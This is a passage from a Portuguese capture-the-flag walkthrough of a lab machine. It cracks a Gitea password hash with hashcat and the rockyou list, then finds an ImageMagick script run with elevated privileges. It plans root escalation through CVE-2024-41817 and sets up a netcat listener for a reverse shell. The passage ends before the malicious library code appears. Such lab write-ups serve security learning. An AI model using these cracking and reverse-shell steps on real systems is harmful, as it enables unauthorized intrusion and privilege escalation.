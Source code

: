 Com o hash formatado corretamente, podemos então usar o hashcat para quebrá-lo:

4. Quebramos o hash usando hashcat:

```bash
hashcat -m 10900 -w 3 gitea.hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show --user
```

5. Agora podemos acessar a máquina com as credenciais de "developer", e coletamos a primeira flag.

## Post Exploitation

1. Poderíamos executar o linpeas para identificar as possibilidades de escalonamento de privilégios, porém nesse caso listaremos apenas os diretórios graváveis pelo nosso usuário.

```bash
find / -type d -writable 2>/dev/null
```

```text
...
/opt/app/static/assets/images
/opt/app/tickets
...
```

2. Ao explorar os diretórios /opt/scripts, podemos identificar um script.

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

O script parece utilizar o ImageMagick para identificar imagens no diretórios `/opt/app/static/assets/images` e grava a saída no arquivo metadata.log.

## Escalação de Privilégios

4. Podemos verificar a versão do ImageMagick para procurar por vulnerabilidades. Pesquisando no google encontramos a CVE-2024–41817 que podemos utilizar para escalar privilégio e coletar a flag de root.

```text
Version: ImageMagick 7.1.1-35
```

Na nossa máquina local, iremos ficar escutando na porta 4444, pois é a porta que iremos configurar na biblioteca compartilhada que executará nossa shell reversa.

```bash
sudo nc -nlvp 4444
```

No diretório do nosso usuário "developer", iremos criar a biblioteca que nos concedera o acesso root.
